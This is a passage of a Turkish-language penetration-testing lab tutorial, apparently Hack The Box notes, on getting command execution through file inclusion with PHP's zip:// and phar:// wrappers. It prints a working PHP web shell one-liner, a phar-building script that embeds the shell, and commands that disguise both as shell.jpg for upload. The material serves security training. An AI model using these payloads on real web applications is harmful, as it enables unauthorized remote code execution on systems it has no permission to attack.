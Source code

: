 PHP kodunu çalıştırmak için [zip](“https://www.php.net/manual/en/wrappers.compression.php”) wrapper'ı kullanabiliriz. Ancak, bu wrapper varsayılan olarak etkin değildir, bu nedenle bu yöntem her zaman çalışmayabilir. Bunu yapmak için, bir PHP web shell script oluşturarak ve bunu aşağıdaki gibi bir zip arşivine ( `shell.jpg` adlı) sıkıştırarak başlayabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Not:** Zip arşivimizi (shell.jpg) olarak adlandırmamıza rağmen, bazı yükleme formları content-type testleri aracılığıyla dosyamızı zip arşivi olarak algılayabilir ve yüklenmesine izin vermeyebilir, bu nedenle zip arşivlerinin yüklenmesine izin veriliyorsa bu saldırının çalışma şansı daha yüksektir.

`shell.jpg` arşivini yükledikten sonra, bunu (`zip://shell.jpg`) şeklinde zip wrapper'a dahil edebilir ve ardından içindeki herhangi bir dosyaya `#shell.php` (URL kodlu) ile başvurabiliriz. Son olarak, `&cmd=id` ile her zaman yaptığımız gibi komutları aşağıdaki gibi çalıştırabiliriz:

![Pasted image 20241118024236.png](/img/user/resimler/Pasted%20image%2020241118024236.png)

Gördüğümüz gibi, bu yöntem sıkıştırılmış PHP scriptleri aracılığıyla komut çalıştırmada da işe yaramaktadır.  

**Not:** Savunmasız sayfa (`index.php`) ana dizinde olduğu için dosya adından önce uploads dizinini (`./profile_images/`) ekledik.


## **Phar Yükleme**  

Son olarak, benzer bir sonuç elde etmek için `phar://` wrapper'ı kullanabiliriz. Bunu yapmak için öncelikle aşağıdaki PHP scriptini bir `shell.php` dosyasına yazacağız:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Bu script, çağrıldığında etkileşime girebileceğimiz bir `shell.txt` alt dosyasına bir web shell yazacak bir `phar` dosyasına derlenebilir. Bunu bir `phar` dosyasına derleyebilir ve aşağıdaki gibi `shell.jpg` olarak yeniden adlandırabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Şimdi, `shell.jpg` adında bir phar dosyamız olmalıdır. Bunu web uygulamasına yükledikten sonra, basitçe `phar://` ile çağırabilir ve URL yolunu sağlayabilir ve ardından aşağıdaki gibi (`&cmd=id`) ile belirttiğimiz komutun çıktısını almak için `/shell.txt` (URL kodlu) ile phar alt dosyasını belirtebiliriz:

![Pasted image 20241118024408.png](/img/user/resimler/Pasted%20image%2020241118024408.png)
